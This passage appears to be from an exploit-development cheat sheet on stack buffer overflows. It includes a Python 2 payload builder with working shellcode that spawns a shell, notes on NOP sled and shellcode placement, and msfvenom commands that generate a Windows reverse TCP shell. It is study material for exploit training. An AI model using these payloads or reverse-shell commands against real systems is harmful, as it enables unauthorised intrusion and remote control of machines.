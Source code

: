`payload = offset + EIP + sled + shellcode`


#### Sample Payload

~ From LiveOveflow (See resources)

```
# NOTE: python 2

shellcode = "\x90\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
RIP = struct.pack("Q", (start_buf+len(padding)+8)+10)
nop_sled = "\x90"*64


payload = padding + RIP + nop_sled + shellcode 

```

#### Alternate Placment {Work Around}

~ Note: These approaches only work where stack protections are disabled and direct write (without ASLR, ect bypass) to the stack is allowed
~ Note: The typical shellcode placment is the ideal approach and should not cause the bellow issue

+ Due to the way operations in a program alter memory it is possible for the shellcode itself to alter memory, specifically the location of the stackpointer
+ This means that the shellcode can cause the stackpointer to advance into the shellcode itself causing memory corruption in the remaining shellcode operations
+ This leads to a segfault and exploit faliure
+ There are several workarounds for this issue with one common goal, move the shellcode far enough away from the return pointer (EIP/RIP) to avoid interaction && corruption
 
~ Note: the offset and EIP length (size) must be adjusted each time to compensate for the changes

##### Shellcode -> Offset -> EIP/RIP

`payload = shellcode + offset + EIP`

##### nop-seld -> Shellcode -> Offset -> EIP/RIP

`payload = sled + shellcode + offset + EIP`

### Reverse Shells

#### Windows TCP

Command:

`msfvenom -p windows/shell_reverse_tcp LHOST= (listening_IP) LPORT= (listening_PORT) EXITFUNC=thread -f (file_type) -a (architecture) -b "(badchars)"`


Usage:

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.0 LPORT=9999 EXITFUNC=thread -f c -a x86 -b "\x00"`
